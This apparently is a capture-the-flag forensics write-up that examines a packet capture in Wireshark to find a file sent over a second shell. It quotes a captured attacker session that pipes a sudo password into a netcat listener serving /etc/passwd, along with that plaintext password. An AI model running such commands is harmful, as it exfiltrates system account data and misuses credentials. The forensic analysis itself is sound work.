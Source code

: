 # Exif (75)
`File shell.pcapng What file is added to the second shell`

We know from other challanges the answer but, `Statistics -> Conversations` then the TCP tab, looking at the conversation for port `4444`:
```
jtomato@ns01:~$ echo "*umR@Q%4V&RC" | sudo -S nc -nvlp 9999 < /etc/passwd
echo "*umR@Q%4V&RC" | sudo -S nc -nvlp 9999 < /etc/passwd
Listening on [0.0.0.0] (family 0, port 9999)
Connection from 192.168.2.244 34972 received!
jtomato@ns01:~$ exit
exit
exit
```
Looking at port `9999` we can also see the file, which we can confirm is the /etc/passwd file